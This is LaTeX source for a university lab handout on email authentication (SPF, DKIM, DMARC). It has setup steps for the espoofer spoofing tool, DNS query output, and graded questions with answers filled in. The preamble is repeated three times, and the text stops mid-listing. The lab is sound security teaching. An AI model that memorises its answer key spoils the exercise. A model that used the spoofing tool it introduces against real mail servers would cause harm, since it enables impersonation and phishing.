\documentclass[11pt]{article}
%\usepackage{psfig}
\usepackage{latexsym}
\usepackage{amsfonts}
\usepackage{hyperref}
\usepackage{url}
\usepackage{listings}
% to use hyperlinks in References section
\hypersetup{urlbordercolor={1 1 1}}
\usepackage{graphicx}
\usepackage{listings}

%define colors
\usepackage{xcolor}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\usepackage{graphicx}
\usepackage{hyperref}
\hypersetup{urlbordercolor={1 1 1}}
\DeclareGraphicsExtensions{.pdf,.jpg,.png,.eps}
\setlength{\textheight}{8.5in}
\setlength{\textwidth}{6.0in}
\setlength{\headheight}{0in}
\addtolength{\topmargin}{-.5in}
\addtolength{\oddsidemargin}{-.5in}
\usepackage{url}
\def\UrlBreaks{\do\A\do\B\do\C\do\D\do\E\do\F\do\G\do\H\do\I\do\J
\do\K\do\L\do\M\do\N\do\O\do\P\do\Q\do\R\do\S\do\T\do\U\do\V
\do\W\do\X\do\Y\do\Z\do\[\do\\\do\]\do\^\do\_\do\`\do\a\do\b
\do\c\do\d\do\e\do\f\do\g\do\h\do\i\do\j\do\k\do\l\do\m\do\n
\do\o\do\p\do\q\do\r\do\s\do\t\do\u\do\v\do\w\do\x\do\y\do\z
\do\.\do\@\do\\\do\/\do\!\do\_\do\|\do\;\do\>\do\]\do\)\do\,
\do\?\do\'\do+\do\=\do\#}

\newenvironment{cvl}{\begin{list}{$\bullet$}{
\setlength{\leftmargin}{0.3in} \setlength{\labelsep}{0.07in}
\setlength{\labelwidth}{0.17in} \setlength{\rightmargin}{0.0in}
\setlength{\topsep}{0.000in} \setlength{\partopsep}{0.000in}
\setlength{\parskip}{0.000in} \setlength{\parsep}{0.005in}
\setlength{\itemsep}{0.005in}}}{\end{list}}

\DeclareGraphicsExtensions{.pdf,.jpg,.png,.eps}
\usepackage[T1]{fontenc}  %special characters copy-able

% \usepackage{times}
\usepackage{enumerate}
\usepackage{xspace}
\newcommand{\espoofer}{{\sf espoofer}\xspace}
\newcommand{\dmark}{{\sf DMARC}\xspace}
\newcommand{\dkim}{{\sf DKIM}\xspace}
\newcommand{\spf}{{\sf SPF}\xspace}
\definecolor{myblue}{HTML}{1F5AB4}%1F5AB4
\hypersetup{colorlinks,urlcolor=black,linkcolor=myblue,anchorcolor=black,citecolor=red}
%--------------
%% Modified by Zhiqiang Lin
%% 01/18/2012
%%
%% Template file was from http://www.cs.umd.edu/~jkatz
%%
%% preamble.tex
%% this should be included with a command like
%% %--------------
%% Modified by Zhiqiang Lin
%% 01/18/2012
%%
%% Template file was from http://www.cs.umd.edu/~jkatz
%%
%% preamble.tex
%% this should be included with a command like
%% %--------------
%% Modified by Zhiqiang Lin
%% 01/18/2012
%%
%% Template file was from http://www.cs.umd.edu/~jkatz
%%
%% preamble.tex
%% this should be included with a command like
%% \input{preamble.tex}
%% \lecture{``lecture number''}{``date''}{``name of professor''}{``name
%%  of student''}

\hbadness=10000
\vbadness=10000

\newcommand{\handout}[5]{
   \renewcommand{\thepage}{#1-\arabic{page}}
   \noindent
   \begin{center}
   \framebox{
      \vbox{
    \hbox to 5.78in { {\bf CSE 5473 --- Network Security} 
     	 \hfill #2 }
       \vspace{4mm}
       \hbox to 5.78in { {\Large \hfill #5  \hfill} }
       \vspace{2mm}
       \hbox to 5.78in { {\it #3 \hfill #4} }
      }
   }
   \end{center}
   \vspace*{4mm}
}

\newcommand{\lecture}[4]{\handout{#1}{#2}{#3}{#4}{#1}}
%\newcommand{\lecture}[4]{\handout{#1}{#2}{Lecturer: #3}{Scribe(s): #4}{Lecture #1}}

\def\epsilon{\varepsilon}
\def\phi{\varphi}
\def\bool{\{0,1\}}
\def\poly{{\sf poly}}
\def\cross{\times}

\newcommand{\xor}{\oplus}
\newcommand{\Xor}{\bigoplus}
\newcommand{\ceil}[1]{\left\lceil {#1} \right\rceil}
\newcommand{\floor}[1]{\left\lfloor #1 \right\rfloor}
\newcommand{\ignore}[1]{}
\newcommand{\integers}[1]{{\mathbb Z}_{#1}}
\newcommand{\bydef}{\stackrel{\rm def}{=}}
\newcommand{\isequal}{\stackrel{\rm ?}{=}}
\newcommand{\compeq}{\stackrel{\rm c}{\equiv}} % computationally indistinguishable

\newcommand{\qed}{\hspace*{\fill}\rule{7pt}{7pt}}
\newenvironment{proof_sketch}{\noindent{\bf Sketch of Proof} (Informal)\hspace*{1em}}{\qed\medskip}
\newenvironment{proof}{\noindent{\bf Proof}\hspace*{1em}}{\qed\medskip}
\newenvironment{proofof}[1]{\noindent{\bf Proof} of #1:\hspace*{1em}}{\qed\medskip}
%\newenvironment{claim}{\noindent{\bf Claim}\hspace*{1em}\begin{em}}{\end{em}\medskip}
\newcounter{defcounter}
\setcounter{defcounter}{1}
\newenvironment{definition}{\medskip\noindent{\bf Definition \thedefcounter}}{\hspace*{\fill}$\diamondsuit$\stepcounter{defcounter}\medskip}
\newtheorem{theorem}{Theorem}
\newtheorem{corollary}[theorem]{Corollary}
\newtheorem{lemma}[theorem]{Lemma}
\newtheorem{claim}[theorem]{Claim}
\newtheorem{fact}[theorem]{Fact}
\newtheorem{conjecture}[theorem]{Conjecture}
\newenvironment{assumption}{\noindent{\bf Assumption}\hspace*{1em}\begin{em}}{\end{em}\medskip}
\newenvironment{remark}{\noindent{\bf Remark}\hspace*{1em}}{\bigskip}

\ignore{
\newcommand{\FOR}{{\bf for}}
\newcommand{\TO}{{\bf to}}
\newcommand{\DO}{{\bf do}}
\newcommand{\WHILE}{{\bf while}}
\newcommand{\AND}{{\bf and}}
\newcommand{\IF}{{\bf if}}
\newcommand{\THEN}{{\bf then}}
\newcommand{\ELSE}{{\bf else}}

%%% You probably will not need to use the commands listed below

\makeatletter
\def\fnum@figure{{\bf Figure \thefigure}}
\def\fnum@table{{\bf Table \thetable}}
\long\def\@mycaption#1[#2]#3{\addcontentsline{\csname
  ext@#1\endcsname}{#1}{\protect\numberline{\csname 
  the#1\endcsname}{\ignorespaces #2}}\par
  \begingroup
    \@parboxrestore
    \small
    \@makecaption{\csname fnum@#1\endcsname}{\ignorespaces #3}\par
  \endgroup}
\def\mycaption{\refstepcounter\@captype \@dblarg{\@mycaption\@captype}}
\makeatother

\newcommand{\figcaption}[1]{\mycaption[]{#1}}
\newcommand{\tabcaption}[1]{\mycaption[]{#1}}
\newcommand{\head}[1]{\chapter[Lecture \##1]{}}
\newcommand{\mathify}[1]{\ifmmode{#1}\else\mbox{$#1$}\fi}
\def\half{\frac{1}{2}}

\newcommand{\fig}[4]{
        \begin{figure}
        \setlength{\epsfysize}{#2}
        \vspace{3mm}
        \centerline{\epsfbox{#4}}
        \caption{#3} \label{#1}
        \end{figure}
        }
}



%% \lecture{``lecture number''}{``date''}{``name of professor''}{``name
%%  of student''}

\hbadness=10000
\vbadness=10000

\newcommand{\handout}[5]{
   \renewcommand{\thepage}{#1-\arabic{page}}
   \noindent
   \begin{center}
   \framebox{
      \vbox{
    \hbox to 5.78in { {\bf CSE 5473 --- Network Security} 
     	 \hfill #2 }
       \vspace{4mm}
       \hbox to 5.78in { {\Large \hfill #5  \hfill} }
       \vspace{2mm}
       \hbox to 5.78in { {\it #3 \hfill #4} }
      }
   }
   \end{center}
   \vspace*{4mm}
}

\newcommand{\lecture}[4]{\handout{#1}{#2}{#3}{#4}{#1}}
%\newcommand{\lecture}[4]{\handout{#1}{#2}{Lecturer: #3}{Scribe(s): #4}{Lecture #1}}

\def\epsilon{\varepsilon}
\def\phi{\varphi}
\def\bool{\{0,1\}}
\def\poly{{\sf poly}}
\def\cross{\times}

\newcommand{\xor}{\oplus}
\newcommand{\Xor}{\bigoplus}
\newcommand{\ceil}[1]{\left\lceil {#1} \right\rceil}
\newcommand{\floor}[1]{\left\lfloor #1 \right\rfloor}
\newcommand{\ignore}[1]{}
\newcommand{\integers}[1]{{\mathbb Z}_{#1}}
\newcommand{\bydef}{\stackrel{\rm def}{=}}
\newcommand{\isequal}{\stackrel{\rm ?}{=}}
\newcommand{\compeq}{\stackrel{\rm c}{\equiv}} % computationally indistinguishable

\newcommand{\qed}{\hspace*{\fill}\rule{7pt}{7pt}}
\newenvironment{proof_sketch}{\noindent{\bf Sketch of Proof} (Informal)\hspace*{1em}}{\qed\medskip}
\newenvironment{proof}{\noindent{\bf Proof}\hspace*{1em}}{\qed\medskip}
\newenvironment{proofof}[1]{\noindent{\bf Proof} of #1:\hspace*{1em}}{\qed\medskip}
%\newenvironment{claim}{\noindent{\bf Claim}\hspace*{1em}\begin{em}}{\end{em}\medskip}
\newcounter{defcounter}
\setcounter{defcounter}{1}
\newenvironment{definition}{\medskip\noindent{\bf Definition \thedefcounter}}{\hspace*{\fill}$\diamondsuit$\stepcounter{defcounter}\medskip}
\newtheorem{theorem}{Theorem}
\newtheorem{corollary}[theorem]{Corollary}
\newtheorem{lemma}[theorem]{Lemma}
\newtheorem{claim}[theorem]{Claim}
\newtheorem{fact}[theorem]{Fact}
\newtheorem{conjecture}[theorem]{Conjecture}
\newenvironment{assumption}{\noindent{\bf Assumption}\hspace*{1em}\begin{em}}{\end{em}\medskip}
\newenvironment{remark}{\noindent{\bf Remark}\hspace*{1em}}{\bigskip}

\ignore{
\newcommand{\FOR}{{\bf for}}
\newcommand{\TO}{{\bf to}}
\newcommand{\DO}{{\bf do}}
\newcommand{\WHILE}{{\bf while}}
\newcommand{\AND}{{\bf and}}
\newcommand{\IF}{{\bf if}}
\newcommand{\THEN}{{\bf then}}
\newcommand{\ELSE}{{\bf else}}

%%% You probably will not need to use the commands listed below

\makeatletter
\def\fnum@figure{{\bf Figure \thefigure}}
\def\fnum@table{{\bf Table \thetable}}
\long\def\@mycaption#1[#2]#3{\addcontentsline{\csname
  ext@#1\endcsname}{#1}{\protect\numberline{\csname 
  the#1\endcsname}{\ignorespaces #2}}\par
  \begingroup
    \@parboxrestore
    \small
    \@makecaption{\csname fnum@#1\endcsname}{\ignorespaces #3}\par
  \endgroup}
\def\mycaption{\refstepcounter\@captype \@dblarg{\@mycaption\@captype}}
\makeatother

\newcommand{\figcaption}[1]{\mycaption[]{#1}}
\newcommand{\tabcaption}[1]{\mycaption[]{#1}}
\newcommand{\head}[1]{\chapter[Lecture \##1]{}}
\newcommand{\mathify}[1]{\ifmmode{#1}\else\mbox{$#1$}\fi}
\def\half{\frac{1}{2}}

\newcommand{\fig}[4]{
        \begin{figure}
        \setlength{\epsfysize}{#2}
        \vspace{3mm}
        \centerline{\epsfbox{#4}}
        \caption{#3} \label{#1}
        \end{figure}
        }
}



%% \lecture{``lecture number''}{``date''}{``name of professor''}{``name
%%  of student''}

\hbadness=10000
\vbadness=10000

\newcommand{\handout}[5]{
   \renewcommand{\thepage}{#1-\arabic{page}}
   \noindent
   \begin{center}
   \framebox{
      \vbox{
    \hbox to 5.78in { {\bf CSE 5473 --- Network Security} 
     	 \hfill #2 }
       \vspace{4mm}
       \hbox to 5.78in { {\Large \hfill #5  \hfill} }
       \vspace{2mm}
       \hbox to 5.78in { {\it #3 \hfill #4} }
      }
   }
   \end{center}
   \vspace*{4mm}
}

\newcommand{\lecture}[4]{\handout{#1}{#2}{#3}{#4}{#1}}
%\newcommand{\lecture}[4]{\handout{#1}{#2}{Lecturer: #3}{Scribe(s): #4}{Lecture #1}}

\def\epsilon{\varepsilon}
\def\phi{\varphi}
\def\bool{\{0,1\}}
\def\poly{{\sf poly}}
\def\cross{\times}

\newcommand{\xor}{\oplus}
\newcommand{\Xor}{\bigoplus}
\newcommand{\ceil}[1]{\left\lceil {#1} \right\rceil}
\newcommand{\floor}[1]{\left\lfloor #1 \right\rfloor}
\newcommand{\ignore}[1]{}
\newcommand{\integers}[1]{{\mathbb Z}_{#1}}
\newcommand{\bydef}{\stackrel{\rm def}{=}}
\newcommand{\isequal}{\stackrel{\rm ?}{=}}
\newcommand{\compeq}{\stackrel{\rm c}{\equiv}} % computationally indistinguishable

\newcommand{\qed}{\hspace*{\fill}\rule{7pt}{7pt}}
\newenvironment{proof_sketch}{\noindent{\bf Sketch of Proof} (Informal)\hspace*{1em}}{\qed\medskip}
\newenvironment{proof}{\noindent{\bf Proof}\hspace*{1em}}{\qed\medskip}
\newenvironment{proofof}[1]{\noindent{\bf Proof} of #1:\hspace*{1em}}{\qed\medskip}
%\newenvironment{claim}{\noindent{\bf Claim}\hspace*{1em}\begin{em}}{\end{em}\medskip}
\newcounter{defcounter}
\setcounter{defcounter}{1}
\newenvironment{definition}{\medskip\noindent{\bf Definition \thedefcounter}}{\hspace*{\fill}$\diamondsuit$\stepcounter{defcounter}\medskip}
\newtheorem{theorem}{Theorem}
\newtheorem{corollary}[theorem]{Corollary}
\newtheorem{lemma}[theorem]{Lemma}
\newtheorem{claim}[theorem]{Claim}
\newtheorem{fact}[theorem]{Fact}
\newtheorem{conjecture}[theorem]{Conjecture}
\newenvironment{assumption}{\noindent{\bf Assumption}\hspace*{1em}\begin{em}}{\end{em}\medskip}
\newenvironment{remark}{\noindent{\bf Remark}\hspace*{1em}}{\bigskip}

\ignore{
\newcommand{\FOR}{{\bf for}}
\newcommand{\TO}{{\bf to}}
\newcommand{\DO}{{\bf do}}
\newcommand{\WHILE}{{\bf while}}
\newcommand{\AND}{{\bf and}}
\newcommand{\IF}{{\bf if}}
\newcommand{\THEN}{{\bf then}}
\newcommand{\ELSE}{{\bf else}}

%%% You probably will not need to use the commands listed below

\makeatletter
\def\fnum@figure{{\bf Figure \thefigure}}
\def\fnum@table{{\bf Table \thetable}}
\long\def\@mycaption#1[#2]#3{\addcontentsline{\csname
  ext@#1\endcsname}{#1}{\protect\numberline{\csname 
  the#1\endcsname}{\ignorespaces #2}}\par
  \begingroup
    \@parboxrestore
    \small
    \@makecaption{\csname fnum@#1\endcsname}{\ignorespaces #3}\par
  \endgroup}
\def\mycaption{\refstepcounter\@captype \@dblarg{\@mycaption\@captype}}
\makeatother

\newcommand{\figcaption}[1]{\mycaption[]{#1}}
\newcommand{\tabcaption}[1]{\mycaption[]{#1}}
\newcommand{\head}[1]{\chapter[Lecture \##1]{}}
\newcommand{\mathify}[1]{\ifmmode{#1}\else\mbox{$#1$}\fi}
\def\half{\frac{1}{2}}

\newcommand{\fig}[4]{
        \begin{figure}
        \setlength{\epsfysize}{#2}
        \vspace{3mm}
        \centerline{\epsfbox{#4}}
        \caption{#3} \label{#1}
        \end{figure}
        }
}




\begin{document}


\lecture{Lab \#2}{Autumn 2020}{Email Security}{Due Nov 8th, 11:59PM}

\lstset{ %
   language=C,                % the language of the code
   basicstyle=\footnotesize\ttfamily,           % the size of the fonts that are used for the code
   literate={-}{-}1,
   columns=fullflexible,   %copy-paste-able
   %numbers=left,                   % where to put the line-numbers
   numberstyle=\tiny\color{gray},  % the style that is used for the line-numbers
   stepnumber=2,                   % the step between two line-numbers. If it's 1, each line
                                   % will be numbered
   numbersep=5pt,                  % how far the line-numbers are from the code
   backgroundcolor=\color{white},      % choose the background color. You must add \usepackage{color}
   showspaces=false,               % show spaces adding particular underscores
   showstringspaces=false,         % underline spaces within strings
   showtabs=false,                 % show tabs within strings adding particular underscores
   frame=single,                   % adds a frame around the code
   rulecolor=\color{black},        % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. commens (green here))
   tabsize=2,                      % sets default tabsize to 2 spaces
   captionpos=b,                   % sets the caption-position to bottom
   breaklines=true,                % sets automatic line breaking
   breakatwhitespace=false,        % sets if automatic breaks should only happen at whitespace
   title=\lstname,                   % show the filename of files included with \lstinputlisting;
                                   % also try caption instead of title
   keywordstyle=\color{blue},          % keyword style
   commentstyle=\color{dkgreen},       % comment style
   stringstyle=\color{mauve},         % string literal style
   escapeinside={\%*}{*)},            % if you want to add LaTeX within your code
   morekeywords={*,...}               % if you want to add more keywords to the set
 }
%%%% body goes in here %%%%


\section{Key Objectives}
\begin{itemize}
\item Reinforce your concept about email security such as authentication protocols (i.e., {\sf SPF}, {\sf DKIM}, and \dmark). \looseness=-1
\item Understand the essences of email spoofing attacks.
\item Learn how to use \espoofer (an automatic tool for email spoofing attacks) to evaluate the security of an email server.

\end{itemize}



\section{Tasks}

\subsection{Task~1: Experiment Setup}



\begin{enumerate}
\item Install VMware
\begin{itemize}
    \item If you are MacOS users, please download and install VMware Fusion. You can  download a free trial version (at \url{http://www.vmware.com/go/try-fusion-en}). For more details, please refer to \url{https://kb.vmware.com/s/article/2014097}.
    \item If you are either Windows or Linux users, please download and install VMWare Station at \url{https://my.vmware.com/en/web/vmware/downloads/details?downloadGroup=PLAYER-1600&productId=1039&rPId=51984}.

\end{itemize}
\item\textbf{Option 1}: Download the System Image (Ubuntu 20.04) at \url{https://releases.ubuntu.com/20.04/}.

\begin{itemize}
\item Install Ubuntu 20.04 onto your Vmware. For MacOS users, you can refer a YouTube video if you are new to this (\url{https://www.youtube.com/watch?v=0A9-iEQJnT8}). Windows users or Linux users can install the System Image in a similar manner.
\item Download \espoofer, which is a tool to launch email spoofing attacks.
\begin{lstlisting}
 $ sudo apt update
 $ sudo apt install git
 $ git clone https://github.com/chenjj/espoofer
\end{lstlisting}\vspace{-6mm}

\item Download and install dependencies.
\begin{lstlisting}
$ sudo apt update
$ sudo apt install python3-pip
\end{lstlisting}\vspace{-6mm}
Go to the root folder of \espoofer and type:
 \begin{lstlisting}
$ sudo pip3 install -r requirements.txt
\end{lstlisting}\vspace{-6mm}
\end{itemize}



\item \textbf{Option 2}: You can also download the System Image we have created with \espoofer installed at \url{https://drive.google.com/file/d/1RERyEPcO57losl7PibuW-1KFFy_lvcZ6/view?usp=sharing}.
\begin{itemize}
\item Unzip and import the downloaded System Image into VMware (Check the link to see how to import the system image:  \url{https://docs.vmware.com/en/VMware-Workstation-Player-for-Linux/14.0/com.vmware.player.linux.using.doc/GUID-DDCBE9C0-0EC9-4D09-8042-18436DA62F7A.html}).
\item Login onto the system using the following credentials\footnote{Root user's password is 123456 as well}:
 \begin{lstlisting}
Username: cse5473
Password: 123456
\end{lstlisting}\vspace{-6mm}
\item \espoofer is located at \texttt{/home/lab/espoofer}.
\end{itemize}



\end{enumerate}

\subsection{Task~2: Understanding \spf and \dmark traces via Terminal Commands (30 Points)}

Use the commands below to query for the \spf and \dmark records for a particular domain.
\begin{enumerate}
\item Querying the \spf record for \texttt{osu.edu} using \texttt{nslookup}.
 \begin{lstlisting}
 $ nslookup -type=txt osu.edu
\end{lstlisting}\vspace{-6mm}
 or

 Querying the \spf record for \texttt{osu.edu} using \texttt{dig}.
 \begin{lstlisting}
 $ dig -t txt osu.edu
 ...
 osu.edu.   3600  IN  TXT "v=spf1 ip4:128.146.216.0/24 ip4:140.254.54.0/26 ip4:131.187.90.204 ip4:131.187.90.205 ip4:128.146.86.128/27 ip4:128.146.193.0/27 ip4:74.63.152.0/24 ip4:147.208.11.202 ip4:147.208.11.203 ip4:147.208.11.204 ip4:192.41.90.128/26 ip4:216.46.168.197 ip4:199.23" "1.134.73/32 include:spf1.osu.edu include:spf.protection.outlook.com ~all"
 ...
\end{lstlisting}\vspace{-6mm}

\textbf{Question 1 (10 points).} What are the IP addresses in \spf records for OSU email servers? Then can attackers setup their email servers to spam Internet users for emails originated from OSU?
\begin{enumerate}
  \item Everything meets criteria below
  \begin{itemize}
    \item 128.146.216.0/24
    \item 140.254.54.0/26
    \item 131.187.90.204
    \item 131.187.90.205
    \item 128.146.86.128/27
    \item 128.146.193.0/27
    \item 74.63.152.0/24
    \item 147.208.11.202
    \item 147.208.11.203
    \item 147.208.11.204
    \item 192.41.90.128/26
    \item 216.46.168.197
    \item 199.231.134.73/32
    \item spf1.osu.edu
    \item spf.protection.outlook.com
  \end{itemize}
  \item Yes, they can if attackers ownes a server with listed IP above.
\end{enumerate}

\textbf{Question 2 (10 points).} The receiving server of an Internet user receives an email from IP address 117.23.901.12 claiming from \url{osu.edu}. Will the receiving server accept the email?

\begin{itemize}
  \item From the record \texttt{include:spf.protection.outlook.com \textasciitilde all}, the receiving server will soft reject the email (place it to spam box) since it is not send by authenticated server.
\end{itemize}

\item Querying the \dmark record for \texttt{osu.edu} using \texttt{nslookup}.
\begin{lstlisting}
$ nslookup - type=txt _dmarc.osu.edu
_dmarc.osu.edu  text = "v=DMARC1; p=none; sp=none; fo=1; rua=mailto:dmarcreports@osu.edu,mailto:dmarc_rua@emaildefense.proofpoint.com; ruf=mailto:dmarcreports@osu.edu,mailto:dmarc_ruf@emaildefense.proofpoint.com; rf=afrf; pct=100; ri=86400"
\end{lstlisting}\vspace{-6mm}

 \textbf{Question 3 (10 points).} Based on the \dmark record,  what are the email addresses used in \texttt{rua} and \texttt{ruf} for \texttt{osu.edu}?  What are the corresponding meanings of these two fields?

\begin{enumerate}
  \item \texttt{rua: dmarcreports@osu.edu, dmarc\_rua@emaildefense.proofpoint.com}
  \item \texttt{ruf: dmarcreports@osu.edu, dmarc\_ruf@emaildefense.proofpoint.com}
  \item \texttt{rua} directs addresses to receive reports about DMARC activity for the domain.
  \item \texttt{ruf} directs addresses to which message-specific forensic information is to be reported (provides more information than \texttt{rua}).
\end{enumerate}

\end{enumerate}


\subsection{Task~3: Understanding \spf, \dkim \& \dmark traces via emails (30 Points)}

Check \spf, \dkim, and \dmark records for a particular domain in the raw data of an email.
\begin{enumerate}
\item Open your web browser and login in your OSU email at \url{https://office365.osu.edu/};
\item Write and send an email to your gmail (if you do not have a gmail account, please register one);
\item When you receive the email, view the ‘Show original’ of the email.
\begin{itemize}
\item Menu $\rightarrow$ Show original (See \autoref{fig:showmsg}).
\end{itemize}

\begin{figure} [h]
\centering
\vspace{-2mm}

\includegraphics[width=0.88\columnwidth]{dkim.pdf}
\caption{View ‘Show original’ of gmail}\label{fig:showmsg}
\end{figure}

\item Search `DKIM-Signature' to view the \dkim record.
\begin{lstlisting}
DKIM-Signature: v=1; a=rsa-sha256; c=relaxed/relaxed; d=buckeyemail.osu.edu; h=from : to : subject : date : message-id : content-type : mime-version; s=pps1; bh=4WreALcxJhhN+epZ8U8BrQ5w98bjEENXknypA+Div30=; b=tet1JTv+2YGeBeC7NnRGV8UHT4pElFq4xP+5g/JAd9Ln+Zzojw+uk8+j4cKd18vw4HUP DZ4w0GlA1S7bJF982aoRgEANt3+pg078zW9Xymf2Q0YFVdrvBJuaDujmHvDQ6fP7ve8d iK6Nzz6eOcx4xeQUJntFgippbvKRsJpfWE9+lFeanqu7Jflb05bty0WwixG5pg7S4oJ+ 9Xkj/7GZ240Q+X1mB3q7BuhuIsUa7o7flhhxDPiqBbWpD51si2xwvApAX/RZJaJXAXoR AaDBHmD/MJ6eDEqS2jYp5vQREMezU9xjssal2PJV1t8GMLtQlRVqLTMKIq9pdki0sin3 Dg==
\end{lstlisting}\vspace{-6mm}

\item Check the `Authentication-Results' to see if the email passed the \spf, \dkim and \dmark check. Please note that OSU email may not have all the information recorded, but gmail recorded all the information.

\begin{lstlisting}
Authentication-Results: mx.google.com;
       dkim=pass header.i=@buckeyemail.osu.edu header.s=pps1 header.b=tet1JTv+;
